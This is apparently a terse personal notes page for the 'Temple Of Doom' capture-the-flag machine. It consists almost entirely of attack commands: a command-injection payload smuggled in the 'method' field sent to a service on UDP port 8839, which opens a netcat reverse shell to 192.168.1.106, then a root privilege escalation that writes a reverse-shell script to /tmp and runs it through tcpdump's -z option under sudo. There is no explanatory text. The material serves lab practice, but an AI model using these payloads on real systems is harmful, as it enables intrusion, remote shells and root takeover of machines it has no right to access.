










# Temple Of Doom
07 April 2022
08:37 AM

nc -u 127.0.0.1 8839
add: {“server\_port":8003, "password":"test", "method":"||nc -e /bin/sh 192.168.1.106 4444 ||"}

cd /tmp
echo "nc -e /bin/bash 192.168.1.106 8888" &gt; shell
chmod 777 shell
sudo tcpdump -ln -I eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
or
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root

